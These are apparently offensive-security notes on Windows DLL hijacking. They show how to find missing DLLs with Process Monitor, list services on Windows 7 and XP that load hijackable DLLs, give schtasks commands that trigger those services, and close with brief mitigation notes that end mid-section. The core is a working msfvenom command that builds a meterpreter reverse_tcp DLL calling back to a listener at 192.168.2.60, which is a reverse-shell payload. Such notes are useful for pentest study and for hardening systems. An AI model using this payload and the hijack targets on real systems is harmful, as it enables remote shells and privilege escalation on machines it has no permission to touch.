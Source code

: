 Identify processes / services
- Use procman (https://technet.microsoft.com/en-us/sysinternals/processmonitor.aspx).
    - Filter `Result` = `NAME NOT FOUND` and `Path` ends with `dll`
- Look at the registry key `ServiceDll` of services (`Parameters`).

```bat
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.60 lport=8989 -f dll > hijackable.dll
```
#### Windows 7

```
IKE and AuthIP IPsec Keying Modules (IKEEXT) – wlbsctrl.dll
Windows Media Center Receiver Service (ehRecvr) – ehETW.dll
Windows Media Center Scheduler Service (ehSched) – ehETW.dll
```

Can run Media Center services over command line:
```bat
schtasks.exe /run /I /TN “\Microsoft\Windows\Media Center\mcupdate”
schtasks.exe /run /I /TN “\Microsoft\Windows\Media Center\MediaCenterRecoveryTask”
schtasks.exe /run /I /TN “\Microsoft\Windows\Media Center\ActivateWindowsSearch”
```

#### Windows XP

```
Automatic Updates (wuauserv) – ifsproxy.dll
Remote Desktop Help Session Manager (RDSessMgr) – SalemHook.dll
Remote Access Connection Manager (RasMan) – ipbootp.dll
Windows Management Instrumentation (winmgmt) – wbemcore.dll
```
```
Audio Service (STacSV) – SFFXComm.dll SFCOM.DLL
Intel(R) Rapid Storage Technology (IAStorDataMgrSvc) – DriverSim.dll
Juniper Unified Network Service(JuniperAccessService) – dsLogService.dll
Encase Enterprise Agent – SDDisk.dll
```

#### Migrations

##### CWDIllegalInDllSearch

- Allow user to change DLL search path algorithm

```
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager]
    CWDIllegalInDllSearch
```
1, 2 or ffffffff ?

```
The directory from which the application loaded
32-bit System directory (C:\Windows\System32)
16-bit System directory (C:\Windows\System)
Windows directory (C:\Windows)
[ dlls not loaded ] The current working directory (CWD)            
Directories in the PATH environment variable (system then user)
```
##### SetDllDirectory
